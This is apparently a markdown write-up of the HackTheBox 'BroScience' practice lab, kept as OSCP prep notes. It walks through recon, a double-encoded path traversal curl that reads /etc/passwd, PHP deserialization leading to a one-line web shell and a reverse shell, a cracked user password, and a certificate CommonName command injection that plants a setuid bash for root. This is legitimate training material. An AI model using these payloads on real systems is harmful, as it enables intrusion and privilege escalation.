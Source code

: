 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

### 🔍 Recon

#### 🌐 Ports Discovered (via `nmap`):
- [**22/tcp** - OpenSSH 8.4p1 (Debian)](SSH)
- [**80/tcp** - Apache 2.4.54, redirects to HTTPS](HTTP.md)
- **443/tcp** - Apache 2.4.54 (SSL-enabled)

```bash
nmap -p- --min-rate 10000 10.10.11.195
nmap -p 22,80,443 -sCV 10.10.11.195
```

#### 🌍 Website Behavior
- HTTP redirects to HTTPS (`https://broscience.htb`)
- Exercises accessible via `exercise.php?id=1`
- Requires registration + activation
- PHPSESSID cookie issued

#### 🔍 Directory Fuzzing
```bash
feroxbuster -u https://broscience.htb -x php -k --no-recursion
```
- Interesting endpoints: `index.php`, `register.php`, `login.php`, `user.php`, `activate.php`, `includes/img.php`

---

### 🐚 Shell as www-data

#### 🕳️ Directory Traversal (not LFI 😤)
- `/includes/img.php?path=` is vulnerable
- `..%252f` double-URL encoding bypasses filters

```bash
curl -k "https://broscience.htb/includes/img.php?path=..%252f..%252f..%252fetc%252fpasswd"
```

#### 📄 Source Read
- Dumped `/index.php`, `/includes/utils.php`, `/includes/db_connect.php`
- Found DB creds & salt `NaCl`
- Found unserialize on `user-prefs` cookie
- Found insecure `generate_activation_code()` using `srand(time())`

#### 🔓 Activation Code Forge
```php
md5($db_salt . $password);
```
- Brute-forced likely activation code based on server timestamp
- Activated user

#### 💥 PHP Deserialization to RCE
- Modified `user-prefs` cookie with `AvatarInterface` payload
- Hosted reverse shell via `cmd.php`
- Reached `/cmd.php?cmd=...`
- Reverse shell as `www-data`

```php
<?php system($_REQUEST['cmd']); ?>
```

---

### 🐚 Shell as bill

#### 🔎 Database Creds
- Used creds from `db_connect.php` to connect to PostgreSQL
- Dumped users table and cracked password hashes with:
```bash
hashcat -m 20 --user hashes rockyou.txt --show
```
- Cracked user bill's password: `iluvhorsesandgym`
- Switched user via `su - bill`

---

### 👑 Shell as root

#### 🔄 Cron Discovery (pspy)
- Found `/opt/renew_cert.sh` executed every 2 mins
- Reads from `/home/bill/Certs/broscience.crt`
- Vulnerable to command injection via `CommonName` field

#### 💣 Exploit
- Crafted certificate with payload:
```bash
CN = $(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)
```
- SetUID root shell dropped in `/tmp/0xdf`
- Executed `/tmp/0xdf -p` to get root

---

### 🏁 Flags
- **User:** `511395d5************************`
- **Root:** `e810aba4************************`

---

### 📬 Shoutout to 0xdf
- Blog: [0xdf hacks stuff](https://0xdf.gitlab.io/)
- Mastodon: `@0xdf@infosec.exchange`
- YouTube, Gitlab, Buy Me a Coffee ☕